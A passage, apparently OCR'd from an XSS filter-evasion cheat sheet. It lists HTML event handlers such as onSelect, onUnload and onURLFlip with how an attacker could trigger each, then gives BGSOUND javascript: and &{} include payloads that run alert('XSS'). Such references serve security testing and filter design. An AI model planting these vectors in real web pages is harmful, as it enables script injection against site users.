    this event fires every time the timeline begins to play backward)
86. `onRowsEnter()` (user or attacker would need to change a row in a
    data source)
87. `onRowExit()` (user or attacker would need to change a row in a data
    source)
88. `onRowDelete()` (user or attacker would need to delete a row in a
    data source)
89. `onRowInserted()` (user or attacker would need to insert a row in a
    data source)
90. `onScroll()` (user would need to scroll, or attacker could use the
    `scrollBy()` function)
91. `onSeek()` (the onreverse event fires when the timeline is set to
    play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto
    initialize with something like:
    `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker
    could auto initialize with something like:
    `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could
    auto initialize with something like:
    `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the
    webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element's ability to play
    its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as
     dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back
     button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format
     (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia
     Extensions) media tag, processes script commands embedded in the
     ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified
     point on the element's segment time line and begins playing from
     that point. The segment consists of one repetition of the time line
     including reverse play using the AUTOREVERSE attribute.)

## BGSOUND

<BGSOUND SRC="javascript:alert('XSS');">

## & JavaScript includes

`<BR SIZE="&{alert('XSS')}">`

